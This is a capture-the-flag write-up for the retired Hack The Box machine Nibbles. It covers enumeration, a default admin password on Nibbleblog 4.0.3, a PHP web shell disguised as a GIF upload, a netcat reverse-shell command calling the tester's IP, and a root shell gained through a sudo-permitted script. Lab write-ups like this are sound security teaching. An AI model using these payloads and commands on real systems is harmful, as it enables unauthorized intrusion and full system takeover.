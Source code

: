 # Nibbles

This is the write-up for the box Nibbles that got retired at the 30th June 2018.
My IP address was 10.10.14.34 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.75    nibbles.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/nibbles.nmap 10.10.10.75
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page there is a text that says **"Hello World"** and a comment in the source code:
```markdown
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

When browsing to _/nibbleblog_ it displays a blog page that is **"Powered by Nibbleblog"**.
[Nibbleblog](https://github.com/dignajar/nibbleblog) is an open-source CMS that works with PHP.

Looking through the GitHub repository, we can browse to the files and directories on the web page and can find out the version by going to the _/nibbleblog/admin/boot/rules/98-constants.bit_ file and looking at source code. As this is a _bit file_ if shows the source code of the PHP code.
It discloses some information about the software:
```markdown
// =====================================================================
//	SYSTEM INFORMATION
// =====================================================================
define('NIBBLEBLOG_VERSION',		'4.0.3');
define('NIBBLEBLOG_NAME',			'Coffee');
define('NIBBLEBLOG_RELEASE_DATE',	'01/04/2014');
define('NIBBLEBLOG_BUILD',			1396309604);
```

So lets search for vulnerabilities for **Nibbleblog 4.0.3**:
```markdown
searchsploit nibbleblog
```

There is an exploit called **Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)** which we take a look at.
It references a [Blog post from Curesec](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html) where it says:
> When uploading image files via the "My image" plugin - which is delivered with NibbleBlog by default - , NibbleBlog 4.0.3 keeps the original extension of uploaded files. This extension or the actual file type are not checked, thus it is possible to upload PHP files and gain code execution.

To exploit this vulnerability, it is required to obtain login credentials first.
After trying out some easy-to-guess and default passwords, the following credentials work:
```markdown
Username: admin
Password: nibbles
```

On the admin panel we need to activate the _My Image plugin_ and then we can upload an image on the box:

![Uploading file](nibbles_web-1.png)

The file _cmd.php_ has the magic byte for a GIF at the beginning and code for command execution with PHP:
```markdown
GIF8;
<?php echo system($\_REQUEST['cmd']); ?>
```

The warnings can be ignored and the uploaded file can be found in the directory _/nibbleblog/content/private/plugins/my_image/image.php_.
Lets try to execute commands:
```markdown
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami
```

This outputs the username _nibbler_ and confirms that code execution works. The next step is to start a reverse shell:
```markdown
GET /nibbleblog/content/private/plugins/my_image/image.php?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.34 9001 >/tmp/f

# URL-encoded
GET /nibbleblog/content/private/plugins/my_image/image.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.34+9001+>/tmp/f
```

After sending this request, the listener on my IP and port 9001 starts a session as _nibbler_.

## Privilege Escalation

Checking the root privileges with `sudo -l` displays that the user can run a shell script in the home directory without a password:
```markdown
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

So lets create the file _monitor.sh_ in the directory _/home/nibbler/personal/stuff/_, make it executable and start a shell with it:
```bash
# Title: monitor.sh

#!/bin/bash
bash
```

Execute the script:
```markdown
sudo ./monitor.sh
```

After executing it, a shell as root starts!
